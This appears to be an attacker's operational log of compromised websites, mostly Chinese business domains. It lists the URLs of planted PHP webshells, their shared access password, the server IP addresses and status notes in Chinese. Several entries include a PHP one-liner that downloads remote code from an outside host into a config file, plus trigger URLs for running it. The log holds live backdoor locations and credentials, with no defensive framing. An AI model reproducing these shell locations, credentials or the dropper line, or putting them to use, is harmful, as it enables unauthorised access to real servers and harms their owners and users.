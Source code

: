 http://schuayidl.com/images/admin/m12.php |mmk123 |  101.132.249.167   | 404

http://schhs.cn/template/default/static/js/m12.php |mmk123 |  101.132.249.167
代码更新：0608 ✅
http://schhs.cn/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://schhs.cn/config/httpd.php?d=up

http://sc-lexus.com.cn/editor/plugins/div/dialogs/m12.php |mmk123 |  101.132.249.167  | 404

http://lvsenlong.cn/template/default/fileinput/img/m12.php |mmk123 |  101.132.249.167
代码更新：0608 ✅
http://lvsenlong.cn/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://lvsenlong.cn/config/httpd.php?d=up

http://www.izangyao.com/upload/ckeditor/images/1m12.php |mmk123 |  101.132.249.167   404
http://iboate.com/editor/skins/office2003/images/m12.php |mmk123 |  101.132.249.167
https://www.i-orange.com.cn/template/orange/js/admin/m12.php |mmk123 |  101.132.249.167
http://hkdhsj.com/editor/plugins/dialog/m12.php |mmk123 |  101.132.249.167

http://gediaomedia.com/template/default/js/m123.php |mmk123 |http://www.scgzw.org/ ->D:/www/gzw_frontend/ | 101.132.249.167
代码更新：0608 ✅
http://gediaomedia.com/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://gediaomedia.com/config/httpd.php?d=up
http://gediaomedia.com/template/default/js/m123.php |mmk123 |  101.132.249.167

https://flyger.cn/static/backup/upgrade/20240129141018/apps/home/model/33.php |mmk123 |  101.132.249.167
代码更新：0608 ✅
https://flyger.cn/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
https://flyger.cn/config/httpd.php?d=up

http://cdfengchangyl.com/template/fcyl/js/m123.php |mmk123 |  101.132.249.167 | 404
http://www.hs-himin.com/static/upload/image/20230602/3m.php |mmk123 |  120.27.14.20
http://www.hehuedu.com/static/upload/image/20230816/13.php |mmk123 |  211.149.140.131
http://www.retay-sign.com/static/upload/image/20220521/13.php |mmk123 |  60.247.166.105
https://www.taiyedrill.com/static/upload/image/20220928/3m.php |mmk123 |  47.92.31.194
http://www.zjnfby.com/static/upload/image/20220218/13.php |mmk123 |  81.68.249.222
http://en.sdmlqp.com/static/upload/image/20220518/3m.php |mmk123 |  211.149.190.167  无法创建PHP
http://taiyedrill.com/static/upload/image/20220827/3m.php |mmk123 |  47.92.31.194  连接不上
http://charge.cqjinhesy.com/static/upload/image/20210326/3m.php |mmk123 |  106.55.241.55
http://www.dzdarui.com/static/backup/upgrade/20191026221101/apps/common/3m.php |mmk123 |提权 | 39.98.229.127
https://cs.gpzyjy.com/uploads/220412/3m.php |mmk123 |  8.141.57.49
http://www.nicoc.com.cn/dd.php |big |big | 103.18.206.8
